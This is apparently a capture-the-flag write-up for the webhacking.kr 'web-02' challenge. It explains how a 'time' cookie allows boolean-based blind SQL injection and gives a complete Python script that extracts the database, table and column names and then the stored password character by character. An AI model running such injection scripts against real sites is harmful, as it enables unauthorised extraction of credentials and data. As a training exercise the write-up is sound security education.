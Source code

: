 ## Inspection

Initial website is just a plain html - nothing special.

![alt text](imgs/image.png)

But if we check the source code, we can see a interesting comment.

```html
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -->
```

Now we know, that there is a file `admin.php`, so lets access it by appending our URL with `/admin.php`.

`https://webhacking.kr/challenge/web-02/admin.php`

This website is again, a plain html, but now it also has a input field.  

![alt text](imgs/image-1.png)

After inspecting both sites more properly, we can find that there is a comment containing time.

```
<!--
2025-01-22 09:21:33
-->
```

But since the time is little bit off - and after refreshing the site it does not change, it gives us a little hint, that this challenge might be somewhat connected to this.

After checking cookies, we can see that there is a cookie for `time`. 

![alt text](imgs/image-2.png)

If we change that cookie value, then the comment with value of time also changes. After setting the cookie to 1, the comment changes to:

```html
<!--
2070-01-01 09:00:01
-->
```

And after setting it to 0, the comment changes to:

```html
<!--
2070-01-01 09:00:00
-->
```

These are hints, that this cookie is connected to a DB of some sort, this is also a hint that we are dealing with SQL injection. The hypothesis is, that if DB returns 0 (on false) or 1 (on true), then the time will be also changed.

We can test this with setting cookie to this value.

```
LENGTH((SELECT DATABASE())) = 1
```

- **LENGTH** returns a length of string
- **SELECT DATABASE()** returns us a name of the used DB
- **.. = 1** compares it to 1, this whole expression returns boolean value

After setting our `time` cookie to this expression and refreshing the site, we can see that the time has changed to:

```html
<!--
2070-01-01 09:00:00
-->
```

So the hypothesis was correct, if we inject a SQL query with boolean comparison, the cookie value will be decided by database.

## Exploitation

For exploiting this security flaw and getting the password, we need to gain:

    - length of database name
    - database name
    - length of table name
    - table name
    - length of column
    - column name
    - length of password
    - password

Getting a length of name is pretty simple, we just have to run a `for` loop that will compare actual length with value from loop.

For example, this is how we can get length of database name: 
```python
    for i in range(1, 20):
            my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i)) # Injecting cookie
            r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies) # Sending request with our cookie
            if "2070-01-01 09:00:01" in r.content.decode(): # This is boolean 1
                database_length = i
                break
```

Gaining whole name is little bit trickier, but nothing impossible if we have correct length of name. For this, we can use `SUBSTR` function, which will be used to compare every position in length of name with every "probable" ascii character.

```python
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits: # testing characters from ascii
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
```

## Final solution

Final solution is getting other names and length with similiar way that was introduced in `Exploitation`.

```python
import requests
import string 
url = "https://webhacking.kr/challenge/web-02/"

session = requests.Session()

try: 
	# Getting length of database name
	database_length = 0
	for i in range(1, 20):
		my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			database_length = i
			break
	print("Length of database name is {}".format(i))

	database_name = ""

	# Getting database name 
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits:
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
	print("Database name is {}".format(database_name))

	table_length = 0
	
	# Getting length of table name
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="{}" LIMIT 0,1)) = {}'.format(database_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			table_length = i
			break
	
	print("Table name length is {}".format(table_length))

	# Getting name of table
	table_name = ""
	for i in range(1, table_length+1):
		for character in string.ascii_lowercase + '_':
			my_cookies = dict(time='SUBSTR((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = "{}" LIMIT 0,1), {}, 1) = "{}"'.format(database_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				print(character	)
				table_name += character
				break

	print("Table name is {}".format(table_name))

	# Getting length of column
	column_length = 0;
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1)) = {}'.format(table_name,i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			column_length = i
			break
	
	# Getting name of column
	column_name = ""
	for i in range(1, column_length + 1):
		for character in string.ascii_letters + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1),{},1) = {}'.format(table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				column_name += character
				print(column_name)
				break
	
	# Getting length of password
	password_length = 0
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT {} FROM {} LIMIT 0,1)) = {}'.format(column_name, table_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)	
		if "2070-01-01 09:00:01" in r.content.decode():
			password_length = i
			print(password_length)
			break

	# Finally, getting password
	password = ""
	for i in range(1, password_length + 1):
		for character in string.ascii_lowercase + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT {} FROM {} LIMIT 0,1), {}, 1) = "{}"'.format(column_name, table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				password += character
				print(password)
				break
			
	print("FINAL PASSWORD: {}".format(password))
except Exception as e:
	print("Error: {}".format(e))

```
